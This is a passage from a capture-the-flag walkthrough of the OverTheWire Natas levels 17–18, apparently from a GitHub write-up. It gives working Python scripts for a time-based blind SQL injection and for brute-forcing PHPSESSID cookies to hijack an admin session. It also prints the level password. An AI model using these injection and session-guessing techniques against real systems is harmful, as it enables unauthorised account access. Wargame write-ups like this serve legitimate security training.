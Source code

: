 ```python
        brute_force_payload = {'natas18" and password LIKE BINARY "' + pswd + char + '%" and sleep(3) #'}  
        req_object['username'] = brute_force_payload  
        request = requests.post(url, auth=authentication, data=req_object)  
        if request.elapsed.seconds >= 3:  
            pswd += char  
            print(pswd)  
            break  
  
# Print the final password  
print("The password for the next level of natas is: ", pswd)
```

Also this method will take a bit of time, so take a little break and wait, when you will be back you'll be please with natas18 password: 8NEDUUxg8kFgPV84uLwvZkGn6okJQ6aq
<br/>

---

### Natas 18
Access the website with the link : http://natas18.natas.labs.overthewire.org .  <br>
Insert the credentials :  <br>
username : natas18  <br>
password : 8NEDUUxg8kFgPV84uLwvZkGn6okJQ6aq  <br>

Continuing with web-forms, in this level we have a login screen where we have to log as admin to receive the password for natas19.

Looking at the source code we can see that there is a variable called `PHPSESSID` and it can assume values up to 640.
Opening the dev tools we see that `PHPSESSID` is a cookie.

We can also understand that when we insert the right credentials, a new session will be created with an ID value between 0 and 640; if the ID correspond to the one of the admin we will be logged as admin and get our password.

Since we know the range of ID values, we can create a script that will try all the values for us and print the next level's credentials:
```python
#!/bin/python  
  
# import the libraries that we need  
import requests  
from requests.auth import HTTPBasicAuth  
  
# Save the login information in variables  
username = "natas18"  
password = "8NEDUUxg8kFgPV84uLwvZkGn6okJQ6aq"  
url = "http://natas18.natas.labs.overthewire.org/index.php?"  
  
# Login to natas18 challenge  
authentication = HTTPBasicAuth(username, password)  
print(requests.get(url, auth=authentication))  
  
# Brute forcing the ID and retrieve the password  
for i in range(118, 640):  
    print("testing number", i)  
    cookie = {"PHPSESSID": str(i)}  
    req = requests.post(url, auth=authentication, cookies=cookie)  
    if "You are an admin" in req.text:  
        print("the right ID is: ", i)  
        print(req.text)  
        break
        
```
